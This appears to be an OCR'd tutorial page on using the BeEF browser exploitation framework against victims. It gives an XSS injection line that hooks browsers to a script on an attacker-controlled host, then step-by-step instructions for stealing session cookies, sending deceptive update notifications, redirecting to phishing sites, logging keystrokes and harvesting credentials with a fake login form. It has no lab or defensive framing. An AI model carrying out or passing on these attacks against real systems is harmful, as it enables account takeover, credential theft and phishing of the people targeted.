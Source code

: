 
### **Using BeEF for Various Exploits**

#### **1. Stealing a Browser Cookie**
   - **Objective**: Capture session cookies of the victim.  
   - **Implementation**:
     - Inject a malicious XSS script into a vulnerable webpage, such as:  
       ```javascript
       <script src="http://<attacker_ip>:3000/hook.js"></script>
       ```
     - Once the victim visits the page, their browser gets hooked by BeEF.  
     - In the BeEF control panel, navigate to the **Commands** tab and select **Browser -> Get Cookies**.  
     - View and save the stolen cookies.

---

#### **2. Sending a Fake Notification**
   - **Objective**: Trick the victim into clicking on a malicious notification.  
   - **Implementation**:
     - Use the **Social Engineering** module in BeEF.  
     - Send a fake browser notification with a misleading message, e.g., "Your system requires an urgent update."  

---

#### **3. Redirecting to a Malicious Website**
   - **Objective**: Redirect the victim to a phishing page or malicious website.  
   - **Implementation**:
     - In BeEF, use the **Commands -> Browser -> Redirect Browser** module.  
     - Enter the URL of the phishing or malicious site.  
     - Execute the command, and the victim's browser automatically navigates to the specified URL.

---

#### **4. Keylogging via XSS**
   - **Objective**: Capture keystrokes in the victim’s browser.  
   - **Implementation**:
     - Deploy the **Keylogger** module from the BeEF control panel.  
     - Start monitoring keystrokes.  
     - Any input entered in the hooked browser is recorded and displayed in the control panel.

---

#### **5. Phishing Attack via Fake Login Form**
   - **Objective**: Harvest credentials using a fake login form.  
   - **Implementation**:
     - Use the **Social Engineering -> Pretty Theft** module.  
     - Design a fake login form mimicking a legitimate service.  
     - Deploy the form to the victim’s browser.  
     - Credentials entered by the victim are captured in the BeEF interface.

---
